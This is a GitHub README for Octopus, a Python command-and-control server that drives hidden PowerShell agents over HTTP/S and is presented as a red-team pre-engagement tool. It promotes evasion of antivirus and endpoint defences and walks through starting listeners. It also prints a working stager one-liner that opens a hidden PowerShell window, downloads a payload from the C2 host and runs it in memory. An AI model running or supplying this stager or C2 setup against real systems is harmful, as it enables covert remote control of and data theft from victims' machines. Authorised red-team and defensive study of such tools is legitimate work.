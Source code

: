 # What is Octopus ? ![](https://img.shields.io/badge/python-2.7-blue) ![](https://img.shields.io/badge/beta-version-yellow)

  Octopus is an open source pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

  The main perpose of creating Octopus is to use it before any red team operation, Insted of start the engagement with your operation infrastrcture, you can use Octopus first to attack the target and gather some inforamtion before you start your attack because Octopus works in very simple way to execute command and exchange it with the C2 in a well encrypted channel which makes it unsuspicious and undetectable from almost every AV and endpoint and network protection.

  There is a cool feature in Octopus called ESA "Endpoint Situational Awareness" which will gather some important information from the target endpoint that will help you to understand the target network endpoints that you will face during your operation, which will give you a shot to customize your real operation based on this informations.

  Octopus designed to be stealthy and covert while communicating with the C2 because it use AES-256 as a default encryption channel between the powershell agent and the C2 server, and also you can use Octopus through TLS/SSL too by providing a valid certficate for your domain and start Octopus C2 server using it.



  # Octopus key features
  Octopus let you as a attacker to execute system commands and do some other stuff that you may need before you start your real engagement such as :


  * Control agents throught HTTP/S.
  * Execute system commands.
  * Download / Upload files.
  * Load external powershell modules.
  * Use encrypted channels (AES 256) between C2 and agents.
  * Use unsuspicious techniuqes to execute commands and transfer results.
  * Create custom and multiple listeners for each target.
  * Generate different types of payloads.
  * **Gather information automatically from the endpoint (endpoint situational awareness) feature.**

# requirements

You can install all Octopus requirements via :

```pip install -r requirements.txt```

Octopus has been tested on the following operating systems:

* Ubuntu (18.04)
* Ubuntu (16.04)
* Kali Linux (2019.2) (No need for install requirements.txt)

If you have any troubles using Octopus, feel free to open an [issue](https://github.com/mhaskar/Octopus/issues) !

# Installation
First of all make sure to download the latest version of Octopus using the following command :

```git clone https://github.com/mhaskar/Octopus/```

Then you need to install the requirements using the following command :

`pip install -r requirements.txt`

After that you can start octopus server like the following :

`./octopus.py`

To get the following results :

```
┌─[askar@arrow]─[/opt/Octopus]
└──╼ $./octopus.py



  /$$$$$$              /$$
 /$$__  $$            | $$
| $$  \ $$  /$$$$$$$ /$$$$$$    /$$$$$$   /$$$$$$  /$$   /$$  /$$$$$$$
| $$  | $$ /$$_____/|_  $$_/   /$$__  $$ /$$__  $$| $$  | $$ /$$_____/
| $$  | $$| $$        | $$    | $$  \ $$| $$  \ $$| $$  | $$|  $$$$$$
| $$  | $$| $$        | $$ /$$| $$  | $$| $$  | $$| $$  | $$ \____  $$
|  $$$$$$/|  $$$$$$$  |  $$$$/|  $$$$$$/| $$$$$$$/|  $$$$$$/ /$$$$$$$/
 \______/  \_______/   \___/   \______/ | $$____/  \______/ |_______/
                                        | $$
                                        | $$
                                        |__/



					    V1.0 BETA !


 Octopus C2 | Control your shells


Octopus >>

```
# Usage

Usage of Octopus is really simple, you just need to start a listener and generate your agent based on that listener information.

You can generate listeners as much as you want then you can start interacting with your agents.



### Listeners

Octopus has two main listeners "http listener" and "https listener" , and the options of the two listeners are nearly the same.

*** HTTP listener : **

`listen_http` command takes the following arguments to start:

- BindIP  		which is the IP address that will be used by the listener
- BindPort  	which is the port you want to listen on
- Hostname 		will be used to request the payload from
- Interval 		how may seconds that agent will wait before check for commands
- URL  			page name will hold the payload
- Listener_name  	listener name to use

and also you can view an examples of it if you executed `listen_http` command like the following:

```
Octopus >>listen_http
[-] Please check listener arguments !
Syntax  : listen_http BindIP BindPort hostname interval URL listener_name
Example (with domain) : listen_http 0.0.0.0 8080 myc2.live 5 comments.php op1_listener
Example (without domain) : listen_http 0.0.0.0 8080 172.0.1.3 5 profile.php op1_listener

##########
Options info :

BindIP  		IP address that will be used by the listener
BindPort  		port you want to listen on
Hostname 		will be used to request the payload from
Interval 		how may seconds that agent will wait before check for commands
URL  			page name will hold the payload
Listener_name  	listener name to use

Octopus >>

```

And we can start a listener using the following command :

`listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1`

We will get the following result:

```
Octopus >>listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1
Octopus >> * Serving Flask app "core.weblistener" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off

Octopus >>

```

a listener started successfully, and we can view all the listeners using `listeners` command to get:

```
Octopus >>listeners


Name        IP         Port  Host             Interval  Path      SSL
----------  -------  ------  -------------  ----------  --------  -----
operation1  0.0.0.0    8080  192.168.178.1           5  page.php  False


Octopus >>

```

*** HTTPS listener : **

### Generate agents

To generate an agent for the listener `operation1` we can use the following command:

`generate_powershell operation1`

and we will get the following results:
```
Octopus >>generate_powershell operation1

powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

```

Now we can use this oneliner to start our agent.

### Interacting with agents


# Screenshots
